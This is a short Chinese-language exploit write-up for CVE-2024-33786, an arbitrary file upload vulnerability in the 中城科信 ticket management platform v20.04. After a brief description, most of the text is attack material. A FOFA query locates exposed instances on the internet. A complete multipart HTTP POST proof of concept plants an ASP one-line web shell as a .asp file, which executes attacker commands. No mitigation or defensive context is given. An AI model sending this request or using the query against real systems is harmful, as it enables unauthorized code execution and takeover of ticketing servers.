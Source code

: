 ### 1.漏洞描述
基础六管控多协同，智慧票务系统以私有/公有云为基础部署，提供票类策略管控、售票流程管控、门票核验管控、营销渠道管控、数据分析管控、财务核销管控功能，与其它业务系统数据共享，协同作业。中城科信票务管理平台20.04中存在任意文件上传漏洞，攻击者可以通过上传精心设计的文件来执行任意代码。

CVE编号：

CVE-2024-33786

### 2.影响版本
v20.04  

# fofa
```plain
body="SystemManager/SoftwareLicense.htm"
```

# POC
```plain
POST /SystemManager/Introduction.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 507
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=--------------------------354575237365372692397370
Accept-Encoding: gzip

----------------------------354575237365372692397370
Content-Disposition: form-data; name="file"; filename="5.txt"
Content-Type: image/jpeg

<%execute(request("cmd"))%>

----------------------------354575237365372692397370
Content-Disposition: form-data; name="fileName"

test_20240504.asp
----------------------------354575237365372692397370
Content-Disposition: form-data; name="Method"

UpdateUploadLinkPic
----------------------------354575237365372692397370
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727183496935-001f5bdd-a424-4e4a-8b50-0354cca5f2f2.png)

